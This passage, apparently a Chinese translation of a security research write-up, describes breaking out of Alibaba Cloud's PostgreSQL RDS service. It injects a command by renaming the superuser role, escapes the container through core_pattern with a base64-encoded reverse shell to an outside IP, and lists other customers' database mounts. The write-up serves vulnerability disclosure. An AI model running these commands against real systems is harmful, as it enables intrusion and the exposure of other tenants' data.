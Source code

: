 这个查询返回的是`PostgreSql`的超级用户的用户名。

阿里云使用`alicloud_rds_admin`作为该服务的超级用户，因此就能利用如下的操作，在新生成而用于版本升级检测的容器中完成RCE。

1. 通过阿里云的站点，启动数据库升级检测
2. 使用ALTER ROLE "alicloud_rds_admin" RENAME TO "\`id\`";将`alicloud_rds_admin`用户名改为命令行注入。
3. 等待5秒让进程节航速
4. 恢复用户名

至此就能拿到一个特权容器的root权限

接下来使用`core_pattern`来进行容器逃逸

1. 需要`/proc/sys`以可写模式挂载，用于可以覆盖`proc/sys/kernel/core_pattern`
2. `/porc/sys/kernel/core_pattern`的语法允许通过`|`将内容传输到程序。由于`core_pattern`和主机共享，在发生`crash`时会在主机上执行，最终完成容器逃逸。

恰好条件符合，这里用base64编码了一个反弹shell命令，覆盖了`proc/sys/kernel/core_pattern`文件

```
echo '|/bin/bash -c 
echo${IFS%%??}L2Jpbi9iYXNoIC1pPiYvZGV2L3RjcC8yMC4xMjQuMTk0LjIxMi82MDAwMSAwPiYxCg==|base64${
IFS%%??}-d|/bin/bash' > /proc/sys/kernel/core_pattern 
```

回到PostgreSql容器，终止进程。

```
$: sh -c 'kill -11 "$$"' 
```

成功拿到宿主机（K8s Node）的Shell

```
[root@i-gw80v6j*REDACTED* /] 

$: id 
uid=0(root) gid=0(root) groups=0(root) 
```

#### 横向移动

和`AnalyticDB`一样，可以利用`kubelet`来查看集群信息。

可以查看`pod`列表，并且能够查看在一个节点上其他用户的数据库信息。

```
# Other customers’ data mounted on our node
$: mount | grep -i /mount | grep -ioE 'pgm-(.*?)/' | sort | uniq 
pgm-*REDACTED*-data-19d1322c/ 
pgm-*REDACTED*-data-15c361da/ 
pgm-*REDACTED*-data-38f60684/ 
pgm-*REDACTED*-data-61b4d30a/ 
pgm-*REDACTED*-data-0197fb99/ 
pgm-*REDACTED*-data-0fa7676b/ 
pgm-*REDACTED*-data-52250988/ 
pgm-*REDACTED*-data-8d044ffb/ 
pgm-*REDACTED*-data-09290508/ 
pgm-*REDACTED*-data-bc610a92/ 
pgm-*REDACTED*-data-d386ec2d/ 
pgm-*REDACTED*-data-ed5993d7/ 
pgm-*REDACTED*-data-a554506c/ 
pgm-*REDACTED*-data-d99da2be/ 
```

